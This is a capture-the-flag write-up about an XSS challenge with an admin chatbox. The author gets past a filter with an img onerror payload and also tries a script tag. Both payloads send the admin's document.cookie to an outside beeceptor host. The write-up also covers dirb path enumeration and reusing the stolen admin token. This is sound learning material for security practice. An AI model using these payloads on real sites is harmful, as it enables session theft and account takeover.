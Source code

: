 This challenge is clearly another xss challenge as its in the webpage link we get.<br />
We see a page with a moving image and a chatbox with an admin.

I tried the same xss as in the Government Agriculture Network challenge:
<script>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie</script>

This returns:<br />
HACKER ALERT!

So there is some checking for xss going on.
This can get very tricky as i found out last year however the first thing I checked already worked out:
Using an img tag with an onerror that executes javascript is another very common way to inject javascript and this does work:<br />
\<img src=X onerror='location.href="https://paulovh.free.beeceptor.com?"+ document.cookie'/\>

This gived me the flag on the beeceptor mock api page!

When trying to go to /admin of the page you get redirected back to the same page at first.<br />
I tried this /admin page as it is a common page on many sites but for a more reliable way of getting these kind of pages you can use:<br />
dirb https://cwo-xss.web.ctfcompetition.com<br />
the dirb program will go trough a wordlist of common website paths and test them all and return you which ones worked.

But the xss also gives you an auth token from the admin.
Adding this in my firefox storage (explained in my Government Agriculture Network write-up) and going again to the /admin page I now get a new page with 3 options:
- Users
- Livestreams
- Camera Controls

The first 2 do nothing the last one gives the message:<br />
Requests only accepted from 127.0.0.1

Here I got stuck. I did not know for sure there was a flag to find here but it did seem like there was something here.

I eventualy needed to read a write-up to find this flag :( There is some magic happening with parameters in the url that make the page think you are comming from 127.0.0.1<br />
I dont know how I should have found this. I will be looking for write-ups that give a better explanation than the first I found and add a better explanation here if I do.

This part I abandoned after I had failed myself in the crypto challenge. Maybe more googleing would make it clear even without finding other write-ups but at this point I had had enough for now.

